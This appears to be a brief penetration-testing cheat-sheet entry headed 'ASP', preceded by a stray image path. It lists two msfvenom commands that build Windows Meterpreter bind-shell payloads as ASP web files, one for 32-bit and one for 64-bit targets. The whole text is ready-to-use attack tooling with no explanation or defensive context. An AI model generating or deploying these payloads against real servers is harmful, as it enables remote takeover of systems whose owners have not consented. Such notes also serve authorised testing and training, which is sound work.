 # ASP

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp`